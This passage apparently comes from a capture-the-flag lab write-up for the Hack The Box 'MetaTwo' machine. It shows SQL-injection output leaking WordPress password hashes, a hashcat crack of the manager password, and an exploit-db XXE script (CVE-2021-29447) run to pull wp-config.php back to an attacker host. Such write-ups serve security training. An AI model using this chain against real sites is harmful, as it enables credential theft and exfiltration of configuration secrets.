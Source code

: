 ```shell
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"admin","bookingpress_category_id":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"},{"bookingpress_service_id":"manager","bookingpress_category_id":"$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]                                                                                                                                                                                                                                                                                                                
```

So the password hash for the user `admin` is `$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.`
The password hash for the other user `manager` is `$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70` where the escape character `\` must be removed to make it valid.

## Password Crack

Let's try to crack both with hashcat!

```bash
hashcat -O -m 400 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt.gz
```

Rockyou does not contain the password for admin, unfortunately.
But it contains password for manager! The pasword is: `partylikearockstar`

We can now login using these credentials.

## Second Exploit in Wordpress

Through WPScan we notice the Wordpress version, which is `5.6.2` that is known to be vulnerable to: https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

A (bash) script is already available in searchsploit to exploit this!

```
──(kali㉿kali)-[~/htb/labs/MetaTwo]
└─$ bash /usr/share/exploitdb/exploits/php/webapps/50304.sh metapress.htb manager partylikearockstar ../wp-config.php 10.10.14.57
```
